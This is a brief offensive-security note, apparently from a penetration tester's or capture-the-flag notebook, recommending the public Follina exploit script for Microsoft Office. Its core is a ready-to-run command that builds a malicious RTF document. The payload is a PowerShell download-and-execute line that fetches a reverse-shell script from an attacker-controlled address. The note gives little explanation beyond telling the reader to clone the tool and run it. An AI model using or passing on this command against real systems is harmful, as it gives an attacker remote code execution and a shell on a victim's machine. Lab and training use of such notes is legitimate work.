 The following exploit [Follina](https://github.com/chvancooten/follina.py) works pretty well, all you need to do is clone the repository and execute it as follows, the "-c" is the command to execute, it can be a cmd or a powershell intruction:
```bash
python3 follina.py -m command -t rtf -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/reverse.ps1')"
```
Examples:
[[Outdated#^d8b8a4]]